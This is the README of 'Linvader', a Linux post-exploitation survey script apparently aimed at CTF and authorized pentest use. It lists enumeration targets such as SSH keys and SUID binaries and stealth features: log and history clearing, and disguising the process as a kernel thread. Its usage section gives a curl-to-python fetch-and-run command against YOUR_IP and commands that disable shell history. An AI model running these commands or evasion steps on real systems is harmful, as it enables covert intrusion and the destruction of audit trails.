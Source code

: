 # Linvader
Survey Script for Linux machines with a twist.
README.md
## OVERVIEW
    This is meant for educational purposes only.  I have only tested this on my local kali linux vm, so results may vary.
    I started this project for automation when doing a computer survey for CTF events and things of the sorts.  I thought it would be fun to make it as stealthy as possible, thus this was born...with some help from claude AI

    This script will clear various logs  before and after running for redundancy 

    When viewing processes in kali, ps -e, top, or htop, this will appear as migration/0 for obfuscation and a high process thread number, ps aux will still show python3 though

## IMPORTANT NOTES
    NOTE: This script will still show up as python3 if you run "ps aux".  It is possible to obfuscate this further by converting it into a BINARY FILE, but that requires a few more steps
    NOTE: This script will continue to run even if the process is not renamed.  This is found on line 28 if you DO NOT want the script to still run
    NOTE: if you do not want to run the script as root: sudo chown $USER:$USER Linvader.py && chmod 644 Linvader.py

## WHAT IS PREVENTED
    Shell History (cleared by "unset HISTFILE") This is run manually first thing on target 
    Disk files (runs in memory)
    Porcess name in ps -e, top or htop will be migration/0 for obfuscation

## WHAT IS STILL LOGGED
    System Logs (/var/log/syslog, /var/log/auth.log)
    Network Connection to YOUR_IP:8000
    Audit logs (if auditd is running, /var/log/audit/audit.log)



FEATURES
- System information gathering
- User and privilege enumeration
- Network configuration analysis
- Process and service discovery
- SUID/SGID binary detection
- Interesting file discovery
- Automatic history cleaning
- Process name obfuscation

WHAT IT ENUMERATES
System Information - OS, kernel, architecture
User Information - Current user, sudo permissions, all users
Network Configuration - IPs, routes, connections, open ports
Running Processes - Process list, root processes
Installed Software - Packages, development tools
File Permissions - SUID/SGID binaries, world-writable files
Interesting Files - SSH keys, history files, configs, databases
Services & Cron Jobs - Active services, scheduled tasks
Environment Variables - All env vars
Security Tools - Firewall, SELinux, AppArmor status

STEALTH FEATURES 
Runs entirely in memory (no disk artifacts)
Process disguised as migration/0 (kernel thread)
Automatic command history clearing
No file-based logging

REQUIREMENTS
Python 3.x
Standard Linux utilities (ps, ss/netstat, ip/ifconfig)

DISCLAIMER
For authorized penetration testing and CTF environments only.



EXECUTE IN MEMORY ON TARGET 
    ON HOST MACHINE:
        python3 -m http.server 8000

    ON TARGET:
        # Disable history first
         unset HISTFILE && set +o history
        # Run the Script
            curl http://YOUR_IP:8000/Linvader.py | python3
        

